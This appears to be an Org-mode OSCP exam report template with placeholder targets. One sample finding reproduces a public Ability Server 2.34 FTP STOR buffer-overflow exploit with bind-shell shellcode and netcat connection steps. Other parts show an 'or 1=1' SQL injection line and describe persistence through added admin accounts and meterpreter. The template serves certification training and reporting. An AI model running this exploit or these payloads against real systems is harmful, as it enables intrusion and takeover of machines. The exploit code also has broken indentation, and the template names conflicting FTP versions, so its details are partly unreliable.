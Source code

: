 #+TITLE: Offensive Security Certified Professional Exam Report
#+SUBTITLE: OSCP Exam Report
#+AUTHOR: YOUR-EMAIL, OSID: OS-99999999
#+DATE: 2023-08-12

* Offensive Security OSCP Exam Report
  
** Introduction
   The Offensive Security Exam penetration test report contains all
   efforts that were conducted in order to pass the Offensive Security
   course.

   This report should contain all items that were used to pass the
   overall exam and it will be graded from a standpoint of correctness
   and fullness to all aspects of the exam.  The purpose of this report
   is to ensure that the student has a full understanding of penetration
   testing methodologies as well as the technical knowledge to pass the
   qualifications for the Offensive Security Certified Professional.

** Objective
   The objective of this assessment is to perform an internal
   penetration test against the Offensive Security Lab and Exam
   network.  The student is tasked with following methodical approach
   in obtaining access to the objective goals.

   This test should simulate an actual penetration test and how you
   would start from beginning to end, including the overall report.

   An example page has already been created for you at the latter
   portions of this document that should give you ample information on
   what is expected to pass this course. Use the sample report as a
   guideline to get you through the reporting.

** Requirements
   The student will be required to fill out this penetration testing
   report fully and to include the following sections:

   - Overall High-Level Summary and Recommendations (non-technical)

   - Methodology walkthrough and detailed outline of steps taken

   - Each finding with included screenshots, walkthrough, sample code,
     and proof.txt if applicable.

   - Any additional items that were not included

* High-Level Summary
  # CHANGE THIS

  John Doe was tasked with performing an internal penetration test
  towards Offensive Security Labs.  An internal penetration test is a
  dedicated attack against internally connected systems.  The focus of
  this test is to perform attacks, similar to those of a hacker and
  attempt to infiltrate Offensive Security's internal lab systems -
  the THINC.local domain.  John's overall objective was to evaluate
  the network, identify systems, and exploit flaws while reporting the
  findings back to Offensive Security.

  When performing the internal penetration test, there were several
  alarming vulnerabilities that were identified on Offensive
  Security's network.  When performing the attacks, John was able to
  gain access to multiple machines, primarily due to outdated patches
  and poor security configurations.  During the testing, John had
  administrative level access to multiple systems.  All systems were
  successfully exploited and access granted.  These systems as well as
  a brief description on how access was obtained are listed below:

  - Active Directory Set:
    - HOSTNAME - Name of initial exploit
    - HOSTNAME - Name of initial exploit
    - HOSTNAME - Name of initial exploit
  - Standalone 1 - HOSTNAME - Name of initial exploit
  - Standalone 2 - HOSTNAME - Name of initial exploit
  - Standalone 3 - HOSTNAME - Name of initial exploit

** Sample Report - Recommendations
   John recommends patching the vulnerabilities identified during the
   testing to ensure that an attacker cannot exploit these systems in
   the future. One thing to remember is that these systems require
   frequent patching and once patched, should remain on a regular
   patch program to protect additional vulnerabilities that are
   discovered at a later date.

* Methodologies
  John utilized a widely adopted approach to performing penetration
  testing that is effective in testing how well the Offensive Security
  Labs and Exam environments are secure. Below is a breakout of how
  John was able to identify and exploit the variety of systems and
  includes all individual vulnerabilities found.

  
** Information Gathering
   The information gathering portion of a penetration test focuses on
   identifying the scope of the penetration test.  During this
   penetration test, John was tasked with exploiting the lab and exam
   network.  The specific IP addresses were:

   *Exam Network*

   172.16.203.133, 172.16.203.134, 172.16.203.135, 172.16.203.136   

** Service Enumeration
   The service enumeration portion of a penetration test focuses on
   gathering information about what services are alive on a system or
   systems.
   
   This is valuable for an attacker as it provides detailed
   information on potential attack vectors into a system.
   Understanding what applications are running on the system gives an
   attacker needed information before performing the actual
   penetration test. In some cases, some ports may not be listed.

** Maintaining Access
   Maintaining access to a system is important to us as attackers,
   ensuring that we can get back into a system after it has been
   exploited is invaluable. The maintaining access phase of the
   penetration test focuses on ensuring that once the focused attack
   has occurred (i.e. a buffer overflow), we have administrative
   access over the system again. Many exploits may only be exploitable
   once and we may never be able to get back into a system after we
   have already performed the exploit.

   John added administrator and root level accounts on all systems
   compromised. In addition to the administrative/root access, a
   Metasploit meterpreter service was installed on the machine to
   ensure that additional access could be established.

** House Cleaning
   The house cleaning portions of the assessment ensures that remnants
   of the penetration test are removed.  Often fragments of tools or
   user accounts are left on an organizations computer which can cause
   security issues down the road. Ensuring that we are meticulous and
   no remnants of our penetration test are left over is important.

   After the trophies on the exam network were completed, John removed
   all user accounts and passwords as well as the meterpreter services
   installed on the system.  Offensive Security should not have to
   remove any user accounts or services from the system.
   
* Independent Challenges
** Target #1 - 192.168.x.x

*** Service Enumeration
    |-------------------+----------------------|
    | Service IP Adress | Ports Open           |
    |-------------------+----------------------|
    |       192.168.1.1 | *TCP*: 21,22,25,80,443 |
    |-------------------+----------------------|

    *FTP Enumeration*

    _Upon manual enumeration of the available FTP service, John noticed it was running an outdated version 2.3.4 that is prone to the remote buffer overflow vulnerability_
    
*** Initial Access - Buffer Overflow

    *Vulnerability Explanation:* Ability Server 2.34 is subject to a
    buffer overflow vulnerability in STOR field. Attackers can use
    this vulnerability to cause arbitrary remote code execution and
    take completely control over the system.

    *Vulnerability Fix:* The publishers of the Ability Server have
    issued a patch to fix this known issue. It can be found here:
    http://www.code-crafters.com/abilityserver/

    *Severity:* Critical

    *Steps to reproduce the attack:* The operating system was different
    from the known public exploit. A rewritten exploit was needed in
    order for successful code execution to occur. Once the exploit was
    rewritten, a targeted attack was performed on the system which
    gave John full administrative access over the system.

    *Proof of Concept Code Here:* Modifications to the existing exploit
    was needed and is highlighted in red.

    #+begin_src python
###################################
# Ability Server 2.34 FTP STOR Buffer Overflow
# Advanced, secure and easy to use FTP Server.
# 21 Oct 2004 - muts
###################################
# D:\BO>ability-2.34-ftp-stor.py
###################################
# D:\data\tools>nc -v 127.0.0.1 4444
# localhost [127.0.0.1] 4444 (?) open
# Microsoft Windows XP [Version 5.1.2600]
# (C) Copyright 1985-2001 Microsoft Corp.
# D:\Program Files\abilitywebserver>
###################################

import ftplib
from ftplib import FTP
import struct
print "\n\n################################"
print "\nAbility Server 2.34 FTP STOR buffer Overflow"
print "\nFor Educational Purposes Only!\n"
print "###################################"

# Shellcode taken from Sergio Alvarez's "Win32 Stack Buffer Overflow Tutorial"

sc = "\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x5e\x81\x73\x17\xe0\x66"
sc += "\x1c\xc2\x83\xeb\xfc\xe2\xf4\x1c\x8e\x4a\xc2\xe0\x66\x4f\x97\xb6"
sc += "\x1a\x38\xd6\x95\x87\x97\x98\xc4\x67\xf7\xa4\x6b\x6a\x57\x49\xba"
sc += "\x7a\x1d\x29\x6b\x62\x97\xc3\x08\x8d\x1e\xf3\x20\x39\x42\x9f\xbb"
sc += "\xa4\x14\xc2\xbe\x0c\x2c\x9b\x84\xed\x05\x49\xbb\x6a\x97\x99\xfc"
sc += "\xed\x07\x49\xbb\x6e\x4f\xaa\x6e\x28\x12\x2e\x1f\xb0\x95\x05\x61"
sc += "\x8a\x1c\xc3\xe0\x66\x4b\x94\xb3\xef\xf9\x2a\xc7\x66\x1c\xc2\x70"
sc += "\x67\x1c\xc2\x56\x7f\x04\x25\x44\x7f\x6c\x2b\x05\x2f\x9a\x8b\x44"
sc += "\x7c\x6c\x05\x44\xcb\x32\x2b\x39\x6f\xe9\x6f\x2b\x8b\xe0\xf9\xb7"
sc += "\x35\x2e\x9d\xd3\x54\x1c\x99\x6d\x2d\x3c\x93\x1f\xb1\x95\x1d\x69"
sc += "\xa5\x91\xb7\xf4\x0c\x1b\x9b\xb1\x35\xe3\xf6\x6f\x99\x49\xc6\xb9"
sc += "\xef\x18\x4c\x02\x94\x37\xe5\xb4\x99\x2b\x3d\xb5\x56\x2d\x02\xb0"
sc += "\x36\x4c\x92\xa0\x36\x5c\x92\x1f\x33\x30\x4b\x27\x57\xc7\x91\xb3"
sc += "\x0e\x1e\xc2\xf1\x3a\x95\x22\x8a\x76\x4c\x95\x1f\x33\x38\x91\xb7"
sc += "\x99\x49\xea\xb3\x32\x4b\x3d\xb5\x46\x95\x05\x88\x25\x51\x86\xe0"
sc += "\xef\xff\x45\x1a\x57\xdc\x4f\x9c\x42\xb0\xa8\xf5\x3f\xef\x69\x67"
sc += "\x9c\x9f\x2e\xb4\xa0\x58\xe6\xf0\x22\x7a\x05\xa4\x42\x20\xc3\xe1"
sc += "\xef\x60\xe6\xa8\xef\x60\xe6\xac\xef\x60\xe6\xb0\xeb\x58\xe6\xf0"
sc += "\x32\x4c\x93\xb1\x37\x5d\x93\xa9\x37\x4d\x91\xb1\x99\x69\xc2\x88"
sc += "\x14\xe2\x71\xf6\x99\x49\xc6\x1f\xb6\x95\x24\x1f\x13\x1c\xaa\x4d"
sc += "\xbf\x19\x0c\x1f\x33\x18\x4b\x23\x0c\xe3\x3d\xd6\x99\xcf\x3d\x95"
sc += "\x66\x74\x32\x6a\x62\x43\x3d\xb5\x62\x2d\x19\xb3\x99\xcc\xc2"
# Change RET address if need be.
buffer = '\x41'*966+struct.pack('<L', 0x7C2FA0F7)+'\x42'*32+sc # RET Windows 2000 Server SP4
#buffer = '\x41'*970+struct.pack('<L', 0x7D17D737)+'\x42'*32+sc # RET Windows XP SP2
try:
# Edit the IP, Username and Password.
ftp = FTP('127.0.0.1')
ftp.login('ftp','ftp')
print "\nEvil Buffer sent..."
print "\nTry connecting with netcat to port 4444 on the remote machine."
except:
print "\nCould not Connect to FTP Server."
try:
ftp.transfercmd("STOR " + buffer)
except:
print "\nDone."
    #+end_src

    *Proof Screenshot:*

    #+CAPTION: label
    [[./img/example_screen-300x225.png]]
    
*** Privilege Escalation - MySQL Injection

    *Vulnerability Explanation:* After establishing a foothold on
    target, John noticed there were several applications running
    locally, one of them, a custom web application on port 80 was
    prone to SQL Injection attacks. Using Chisel for port forwarding,
    John was able to access the web application. When performing the
    penetration test, John noticed error-based MySQL Injection on the
    taxid query string parameter. While enumerating table data, John
    was able to successfully extract the database root account login
    and password credentials that were unencrypted that also matched
    username and password accounts for the administrative user account
    on the system and John was able to log in remotely using RDP. This
    allowed for a successful breach of the operating system as well as
    all data contained on the system.

    *Vulnerability Fix:* Since this is a custom web application, a
    specific update will not properly solve this issue. The
    application will need to be programmed to properly sanitize
    user-input data, ensure that the user is running off of a limited
    user account, and that any sensitive data stored within the SQL
    database is properly encrypted. Custom error messages are highly
    recommended, as it becomes more challenging for the attacker to
    exploit a given weakness if errors are not being presented back to
    them.
 
    *Severity:* Critical

    *Steps to reproduce the attack:*

    *Proof of Concept Code:*

    #+begin_src sql
SELECT * FROM login WHERE id = 1 or 1=1 AND user LIKE "%root%"
    #+end_src
    
*** Post-Exploitation

    *System Proof Screenshot:*

    #+CAPTION: label
    [[./img/example_screen-300x225.png]]
    
** Target #2 - 192.168.x.x

*** Service Enumeration
    |-------------------+--------------------------------|
    | Service IP Adress | Ports Open                     |
    |-------------------+--------------------------------|
    |       192.168.1.3 | *TCP*: 1433,3389 \ *UDP:1434, 161* |
    |-------------------+--------------------------------|

    *Nmap Scan Results:*

    /Initial Shell Vulnerability Exploited/
    
    /Additional info about where the initial shell was acquired from/
    
*** Initial Access - XXX
*** Privilege Escalation - XXX
    *Vulnerability Explanation:*

    *Vulnerability Fix:*

    *Severity:*

    *Steps to reproduce the attack:*

    *Proof of Concept Code:*
    
*** Post-Exploitation
    *Proof Screenshots:*

    *proof.txt content:*
   
** Target #3 - 192.168.x.x

*** Service Enumeration

    |-------------------+--------------------------------|
    | Service IP Adress | Ports Open                     |
    |-------------------+--------------------------------|
    |       192.168.1.3 | *TCP*: 1433,3389 \ *UDP:1434, 161* |
    |-------------------+--------------------------------|

    *Nmap Scan Results:*

    /Initial Shell Vulnerability Exploited/
    
    /Additional info about where the initial shell was acquired from/
    
*** Initial Access - XXX

    *Vulnerability Explanation:*

    *Vulnerability Fix:*

    *Severity:*

    *Steps to reproduce the attack:*

    *Proof of Concept Code:*

    *Proof Screenshot:*

    *local.txt content:*
    
*** Privilege Escalation - XXX
    *Vulnerability Explanation:*

    *Vulnerability Fix:*

    *Severity:*

    *Steps to reproduce the attack:*

    *Proof of Concept Code:*
    
*** Post-Exploitation
    *Proof Screenshots:*

    *proof.txt content:*
   
* Active Directory Set
  *Port Scan Results*

  |-------------+---------------------------------|
  |  IP Address | Ports Open                      |
  |-------------+---------------------------------|
  | 192.168.x.x | *TCP*: 1433,3389 \ *UDP: 1434, 161* |
  | 192.168.x.x | *TCP*: 1433,3389 \ *UDP: 1434, 161* |
  | 192.168.x.x | *TCP*: 1433,3389 \ *UDP: 1434, 161* |
  |-------------+---------------------------------|

** Hostname1: 192.168.x.x

*** Initial Access - XXX

    *Vulnerability Explanation:*
    
    *Vulnerability Fix:*
    
    *Severity:*

    *Steps to reproduce the attack:*

    *Proof of Concept Code:*

    *Proof Screenshot:*

    *local.txt content:*
    
*** Privilege Escalation - XXX

    *Vulnerability Explanation:*
    
    *Vulnerability Fix:*
    
    *Severity:*

    *Steps to reproduce the attack:*

    *Proof of Concept Code:*

*** Post-Exploitation

    *Proof Screenshots:*

    *proof.txt content:*

** Hostname2: 192.168.x.x

*** Initial Access - XXX

    *Vulnerability Explanation:*
    
    *Vulnerability Fix:*
    
    *Severity:*

    *Steps to reproduce the attack:*

    *Proof of Concept Code:*

    *Proof Screenshot:*

    *local.txt content:*
    
*** Privilege Escalation - XXX

    *Vulnerability Explanation:*
    
    *Vulnerability Fix:*
    
    *Severity:*

    *Steps to reproduce the attack:*

    *Proof of Concept Code:*

*** Post-Exploitation

    *Proof Screenshots:*

    *proof.txt content:*

** Hostname3: 192.168.x.x

*** Initial Access - XXX

    *Vulnerability Explanation:*
    
    *Vulnerability Fix:*
    
    *Severity:*

    *Steps to reproduce the attack:*

    *Proof of Concept Code:*

    *Proof Screenshot:*

    *local.txt content:*
    
*** Privilege Escalation - XXX

    *Vulnerability Explanation:*
    
    *Vulnerability Fix:*
    
    *Severity:*

    *Steps to reproduce the attack:*

    *Proof of Concept Code:* Please see Appendix 1 for the complete
    Windows Buffer Overflow code.

*** Post-Exploitation

    *Proof Screenshots:*

    *proof.txt content:*

* Additional Items

** Proof and Local Contents  
** Metasploit/Meterpreter Usage
